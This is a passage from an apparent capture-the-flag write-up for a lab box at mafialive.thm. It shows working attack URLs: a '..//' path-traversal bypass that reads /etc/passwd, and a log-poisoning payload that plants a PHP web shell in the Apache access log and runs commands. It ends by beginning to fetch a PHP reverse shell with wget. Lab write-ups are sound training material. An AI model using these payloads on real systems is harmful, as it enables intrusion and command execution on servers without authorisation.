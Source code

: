                 echo 'Sorry, Thats not allowed';
            }
        }
        ?>
    </div>
</body>

</html>



### Log Poisoning

Looking at the base64 value decoded, I find that we are not allowed to use `../..` and we have to start our string with `/var/www/html/development_testing`. These are the only two conditions. A well known bypass for `../..` is to use a [double backslash](https://book.hacktricks.xyz/pentesting-web/file-inclusion#basic-lfi-and-bypasses) which we are allowed to do.

I test the double backslash to see if I can read /etc/passwd.


`http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//etc/passwd`


![passwd](https://spy0x7.cf/assets/archangel/passwd.png)

I can now use this to search the box. Looking for SSH keys do not work and I can’t read any useful files, so I try log poisoning. First, I need to find where the logs are stored. Testing the default places, I find `/var/log/apache2/access.log` contains all logs for the HTTP server.


`view-source:http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log`


![log](https://spy0x7.cf/assets/archangel/log.png)


Scrolling to the bottom of this log file, I see all of my requests through the LFI vulnerable.


`http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php?%3C?php%20system($_GET[%27c%27]);%20?%3E`

Refreshing access.log, I see my php code is now in the log file

![php](https://spy0x7.cf/assets/archangel/php.png)

I can now test command execution

`view-source:http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&c=whoami`


![www](https://spy0x7.cf/assets/archangel/www.png)


Since I can execute commands, I can upload files. Using a [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) I can upload this file and then navigate to it. I setup up a python HTTP Server on my local machine then use wget to upload the file
